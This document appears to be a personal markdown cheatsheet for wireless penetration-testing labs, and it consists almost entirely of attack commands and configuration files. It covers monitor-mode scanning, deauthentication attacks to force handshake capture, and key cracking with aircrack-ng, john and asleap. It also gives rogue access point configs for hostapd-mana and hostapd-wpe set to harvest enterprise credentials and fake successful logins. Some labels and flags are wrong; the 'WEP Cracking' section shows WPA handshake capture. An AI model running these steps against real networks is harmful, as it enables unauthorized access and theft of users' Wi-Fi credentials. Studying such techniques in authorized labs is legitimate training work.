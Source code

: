 
| [[Cheatsheet#Prep / Config\|Prep / Config]] | [[Cheatsheet#Rogue AP Attack\|Rogue AP Attack]]              | [[Cheatsheet#Connect to AP\|Connect to AP]] |
| ------------------------------------------- | ------------------------------------------------------------ | ------------------------------------------- |
| [[Cheatsheet#WEP Cracking\|WEP Cracking]]   | [[Cheatsheet#WPA-Enterprise (MGT)\|WPA-Enterprise Cracking]] | [[Cheatsheet#Example Files\|Example Files]] |

## Prep / Config
```shell
# SSH into VM
kali@kali:~$ ssh <user>@<ip> -p<port>

# Brief scan of wireless networks detected
kali@kali:~$ sudo iw dev wlan0 scan | grep SSID

# Setup monitor mode
kali@kali:~$ sudo airmon-ng start wlan0

# Scan on monitor mode
kali@kali:~$ sudo airodump-ng wlan0mon
kali@kali:~$ sudo airodump-ng --band abg wlan0mon
kali@kali:~$ sudo airodump-ng -w capture wlan0mon

# Change channel for wireless network card
kali@kali:~$ sudo iwconfig wlan0mon channel 3

# Use john with aircrack-ng
kali@kali:~$ sudo nano /etc/john/john.conf
kali@kali:~$ john --wordlist=/usr/share/john/password.lst --rules --stdout | aircrack-ng -e <ESSID> -w - capture-01.cap
```
## Rogue AP Attack
```shell
# Run Rogue AP
kali@kali:~$ hostapd-mana a.conf
# Example config files below
```
### Connect to AP
```shell
# Run WPA_Supplicant
kali@kali:~$ sudo wpa_supplicant -i wlan0mon -c wifi-client.conf
kali@kali:~$ sudo dhclient wlan0mon -v
kali@kali:~$ curl <IP_ADDR>/proof.txt
```
## WEP Cracking
```shell
# Setup monitor mode and identify target AP
kali@kali:~$ sudo airmon-ng check kill
kali@kali:~$ sudo airmon-ng start wlan0
kali@kali:~$ sudo airodump-ng wlan0mon
# Identify ap then narrow down to channel num

# Capture target AP for handshake
kali@kali:~$ sudo airodump-ng -c <channel-num> --wps -w capture --eesid <ESSID> --bssid <BSSID> wlan0mon

# Deauth attack to force handshake capture (new terminal/screen)
kali@kali:~$ sudo aireplay-ng -0 1 -a <BSSID> -c <CLIENT-MAC> wlan0mon

# Crack handshake found
kali@kali:~$ aircrack-ng -w /usr/share/wordlists/rockyou.txt -e <ESSID> -b <BSSID> capture-01.cap

# Decrypt traffic if needed
kali@kali:~$ airdecap-ng -b <BSSID> -e <ESSID> -p <key> capture-01.cap
```
## WPA-Enterprise (AUTH MGT)
```shell
### First, update hostapd-wpe.conf with correct INTERFACE, CHANNEL, SSID
# Run HostAPD-WPE
kali@kali:~$ /etc/hostapd-wpe/hostapd-wpe.conf

# Run ASLEAP command from HostAPD output e.g.
kali@kali:~$ asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4 -W /usr/share/wordlists/rockyou.txt

### If fail, revert to FreeRADIUS server
kali@kali:~$ sudo apt install freeradius
kali@kali:~$ sudo nano /etc/freeradius/3.0/certs/na.cnf # change to same as target CA certificate
kali@kali:~$ sudo nano server.cnf # change to same as target server

# Generate Cert
kali@kali:~$ cd /etc/freeradius/3.0/certs
kali@kali:~$ rm dh
kali@kali:~$ make

# Run HostAPD-Mana
kali@kali:~$ sudo hostapd-mana /etc/hostapd-mana/mana.conf
```
## Example Files
### Hostapd-mana Conf Files
opn.conf
```json
network={
	ssid="wifi-free"
    key_mgmt=NONE
    scan_ssid=1
}
```
psk.conf
```json
network={
  ssid="home_network"
  scan_ssid=1
  psk="correct battery horse staple"
  key_mgmt=WPA-PSK
}
```
mgt.conf
```json
network={
    ssid="wifi-mobile"
    scan_ssid=1
    key_mgmt=WPA-EAP
    identity="user"
    password="password"
    eap=PEAP
    phase1="peaplabel=0"
    phase2="auth=MSCHAPV2"
}
```
Mostar-mana.conf (WPA-PSK)
```shell
interface=wlan0
ssid=Mostar
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/kali/mostar.hccapx
```
mana.conf (WPA-E)
```shell
# SSID of the AP
ssid=Playtronics

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan0
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=1
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```
mana.eap_user
```shell
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```